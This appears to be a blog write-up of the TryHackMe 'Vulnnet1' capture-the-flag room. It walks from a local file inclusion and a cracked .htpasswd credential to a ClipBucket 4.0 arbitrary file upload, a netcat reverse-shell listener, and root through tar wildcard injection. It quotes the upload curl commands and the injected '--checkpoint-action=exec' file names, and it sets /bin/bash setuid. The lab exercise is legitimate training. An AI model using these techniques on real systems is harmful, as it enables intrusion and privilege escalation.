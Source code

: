 ```yaml
---
title: THM Vulnnet1
author: hanhctf
date: 2023-04-06 22:22:22 +0700
categories: [Write-up, THM]
tags: [php]
toc: true
mermaid: true
---
```


# [**_Vulnnet1 room_**](https://tryhackme.com/room/vulnnet1)

## Nmap

With Nmap, see 2 ports open
![](/commons/THM/Vulnnet1/1.nmap.png)

## Analyz the webpage

***View the source of the home page, we see 2 Js files.***  
Check domain vulnnet.thm in them. We found something interesting.

1. Subdomain <http://broadcast.vulnnet.thm>
2. A path URL `referer` ```http://vulnnet.thm/index.php?referer=``` ==> LFI

![](/commons/THM/Vulnnet1/2.LFI-vuln.png)  

## Foothold

With dirsearch, we found some files.
![](/commons/THM/Vulnnet1/3.dirsearch.png)

==> Find credential in `/etc/apache2/.htpasswd`
![](/commons/THM/Vulnnet1/4.htpasswd.png)

Crack hash with JTR
![](/commons/THM/Vulnnet1/5.crack-hash.png)

With this credential of developers, we can access ```http://broadcast.vulnnet.thm```

webpage with title ClipBucket v4.0
Quick research in exploit-DB ==> [Exploit](https://www.exploit-db.com/exploits/44250)

```
2. Unauthenticated Arbitrary File Upload
Below is the cURL request to upload arbitrary files to the web server with no
authentication required.

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/beats_uploader.php"

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/photo_uploader.php"

Furthermore, this vulnerability is also available to authenticated users with
basic privileges:

$ curl --cookie "[--SNIP--]" -F
"coverPhoto=@valid-image-with-appended-phpcode.php"
"http://$HOST/edit_account.php?mode=avatar_bg"   
```

![](/commons/THM/Vulnnet1/6.file-upload.png)

In the terminal, we listen with `nc -nlvp 9001`
And browser ```<http://broadcast.vulnnet.thm/actions/><file_directory>/<filename>.php```

![](/commons/THM/Vulnnet1/7.www-data.png)

Upload `linpeas.sh` to the target machine.  
Run `linpeas.sh`, we found an interesting backup file.  
![](/commons/THM/Vulnnet1/8.svr-man-backup.png)

Download the file to attack the machine.
With JRT --> credential of server-management
![](/commons/THM/Vulnnet1/9.svr-man-cred.png)

**Got user.txt**

## Privilege escalation  

Run `linpeas.sh`, we see a cronjob with root user  
![](/commons/THM/Vulnnet1/10.cronjob.png)  
![](/commons/THM/Vulnnet1/11.code-cronjob.png)  

THIS PROGRAM IS MAKING A BACKUP USING THE **TAR** COMMAND OF THE Documents FOLDER
LETS CHECK GTFOBINS  

```shell
server-management@vulnnet:~/Documents$ echo "" > "--checkpoint-action=exec=sh pwn.sh"
server-management@vulnnet:~/Documents$ echo "" > --checkpoint=1
server-management@vulnnet:~/Documents$ echo "chmod +s /bin/bash" > pwn.sh  
```

![](/commons/THM/Vulnnet1/12.pwn.png)  

**Got root.txt**
